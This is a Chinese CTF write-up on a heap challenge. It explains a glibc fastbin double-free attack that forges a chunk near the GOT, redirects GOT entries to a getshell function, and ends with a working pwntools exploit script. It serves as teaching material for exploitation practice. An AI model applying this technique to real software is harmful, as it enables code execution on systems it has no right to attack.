






## 0x01 题目信息

程序提供了两个功能：add和delete。

- add功能：允许创建11个chunk，scanf输入number和size，保存&malloc到bss，并且read 长度为size的content到chunk中。
- delete功能：输入chunk number 0-11，free保存在bss上的指针后退出。指针没有置null！
- 程序还提供了没有被调用的getshell函数。







由于指针没有置null，存在double free漏洞。利用思路：fastbin attack劫持got到getshell函数。

## 0x02 fastbin attack

fastbin的double free流程很简单：

1. 创建chunk1 chunk2
2. free 1 free2 free1 形成圈环
3. malloc获得chunk1，修改fd指向fake_fastbin_chunk（size的idx需一致），malloc两次获取chunk2 chunk1
4. 此时fastbinxY[idx]中即是fake_fastbin_chunk，继续malloc获得指针：fake_fastbin_chunk+0x10，实现arbitray write！

fastbin attack实现arbitray write的条件在于double free形成圈环和寻找到一个idx相同的size。后者比较困难。展开阐述一下。

调试时，发现fastbin attack的size是32位的。因此，需要在写地址的附近找到一个32位的size，就可以伪造fake_fastbin_chunk = &size-8。（截图仅供参考，这里chunk size是0x81，所以idx为6，后续利用时，chunk size是0x41，idx为2）

具体到这题看一下，尝试劫持GOT，在GOT中寻找可用的size，0x20-0x87的4byte size都可以用。同时为了不影响程序的正常执行流程，不能修改劫持GOT之前会用到的函数。在fastbin attack（add中的malloc函数执行完）后，会调用的函数是add中malloc后的puts，返回while循环后get_content中的fread和getchoice中的strtol，add中的printf，scanf，malloc….通过下面对size的分析，attack后最早可以在strtol调用时，就getshell。

- .dynamic处 0x602002的size为0x60，attack后从0x60200a处开始写，会修改link_map和dlresolve的地址，system函数还没有动态解析，肯定不能用这里。
- 0x602032处后续是setbuf和system，attack后从0x60203a开始写，这里可以用，但是需要恢复system GOT为system@plt+6，方便后续动态解析system地址并调用
- 0x602042处后续是alarm，__libc_start_main，strtol，malloc，这里也可以用。






看sunichi@dubhe的exploit，fastbin的chunk利用了0x0000007f，该地址依赖于alarm在libc中的低地址是\x00，因此可以构造fake的4byte size（低位0xf在chunk SIZE中是标记位，chunksize返回时回清空）。




## 0x03 exploit

```python
def pwn(io):
    # if local&debug: gdb.attach(io,'break *0x400d1b\n directory /root/Pwn/glibc/glibc-2.23/malloc/')

    size = 0x38
    add(0, size, "thinkycx" )
    add(1, size, "thinkycx" )
    add(2, size, "thinkycx")

    delete(0)
    delete(1)
    delete(0)
    log.info("fastbin circle has finished!")

    write_addr = 0x602030 + 2 -0x8 # bypass fastbin size check
    # write_addr = 0x602040 + 2 -0x8 # bypass fastbin size check
    # if local&debug: gdb.attach(io,'break *0x400d1b\n directory /root/Pwn/glibc/glibc-2.23/malloc/')
    add(3, size, p64(write_addr) )
    add(4, size, "thinkycx")
    add(5, size, "thinkycx" ) # next fasbins will be write_addr

    getshell = 0x400946
    # if write_addr is 0x602030 + 2 - 0x8
    # payload = "\x00"*6 + p64(elf.plt['system']+6) + p64(elf.plt['printf']) + p64(getshell)*4
    payload = "\x00"*6 + p64(elf.plt['system']+6) +  p64(getshell)*4

    # if write_addr is 0x602040 + 2 - 0x8
    # payload = "\x00"*6 + p64(getshell)*3 # strtol
    # if local&debug: gdb.attach(io,'break *0x400d1b\n directory /root/Pwn/glibc/glibc-2.23/malloc/')
    add(7, size, payload) # when comes to getchoice() strol(), call getshell, system@plt+6
    # add(8, 0x100, "getshell!")
```

